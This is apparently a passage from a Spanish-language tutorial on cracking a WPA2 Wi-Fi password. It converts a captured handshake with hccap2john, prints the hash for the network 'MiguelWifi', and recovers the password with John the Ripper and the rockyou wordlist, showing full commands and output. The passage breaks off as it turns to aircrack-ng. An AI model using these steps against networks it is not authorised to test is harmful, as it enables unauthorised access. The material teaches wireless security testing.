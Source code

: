 Ahora con `hccap2john` le vamos a pasar la captura que creamos y lo vamos a exportar a otro archivo que hay ya va a estar el hash final con la contraseña encriptada

```bash
❯ hccap2john newcap.hccap > finalhash
```

Ahora si lo mostramos vamos a ver el **hash** de la red inlambrica

```bash
❯ cat finalhash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: finalhash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ MiguelWifi:$WPAPSK$MiguelWifi#lfzxJS9r4ZUMHcdciYifKDnNVlMfqviwdmh6TT9Oaz3PDc2DFB4qhjzdTixmSgQg2Q2kM8e9MTp.X.Kgv89DpjNnH
       │ 3PoWWtpGjL8ok61.5I0.Ec.2........../iYifKDnNVlMfqviwdmh6TT9Oaz3PDc2DFB4qhjzdTiw.........................................
       │ ........................3X.I.E..1uk2.E..1uk2.E..1uk01..................................................................
       │ .................................................................................................................../t..
       │ ...U.../f.PgB9hd4Hs0Y2T9cQGXI:1a58184e8a68:c6bffd55e2f7:c6bffd55e2f7::WPA2:newcap.hccap
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

# Fuerza bruta con John 

Para crackearla contraseña es muy fácil simplemente hacemos esto en mi caso usare el `rockyou.txt` ya que la contraseña esta en el diccionario

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt finalhash
Warning: detected hash type "wpapsk", but the string is also recognized as "wpapsk-pmk"
Use the "--format=wpapsk-pmk" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (wpapsk, WPA/WPA2/PMF/PMKID PSK [PBKDF2-SHA1 512/512 AVX512BW 16x])
Cost 1 (key version [0:PMKID 1:WPA 2:WPA2 3:802.11w]) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: Minimum length forced to 2 by format
Press 'q' or Ctrl-C to abort, almost any other key for status
manchester       (MiguelWifi)
1g 0:00:00:00 DONE (2023-09-12 18:45) 3.125g/s 1600p/s 1600c/s 1600C/s jeffrey..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

# Fuerza bruta con aircrack-ng 

Bueno también se puede hacer usando la propia herramienta `aircrack-ng`
